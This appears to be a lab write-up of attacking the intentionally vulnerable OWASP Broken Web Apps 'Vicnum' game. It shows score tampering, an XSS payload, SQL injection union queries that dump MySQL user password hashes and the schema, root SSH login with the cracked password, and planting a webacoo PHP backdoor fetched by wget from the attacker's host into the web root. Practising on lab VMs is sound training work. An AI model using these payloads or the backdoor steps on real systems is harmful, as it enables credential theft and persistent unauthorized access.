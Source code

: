 +++
title = "OWASP Broken Web Apps Vicnum - Guessnum"
slug = "owasp-broken-web-apps-vicnum-guessnum"
[taxonomies]
categories=["vulnerable-web-app"]
tags=["web", "owasp"]
+++

I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

```javascript
<script>alert(1)</script>
```

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

```sql
' or 1 = 1 #
```

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
```sql
'  union all select user,password,3,4 from mysql.user#
```

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
```sql
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
```

Next lets ssh to the VM:

```bash
ssh root@ip
pw: owaspbwa
```

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

```bash
webacoo -g -o bd.php
```

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

```bash
wget http://iptoparrot:8000/bd.php
```

Then to test things out:

```bash
webacoo -t -u http://ip/bd.php
```
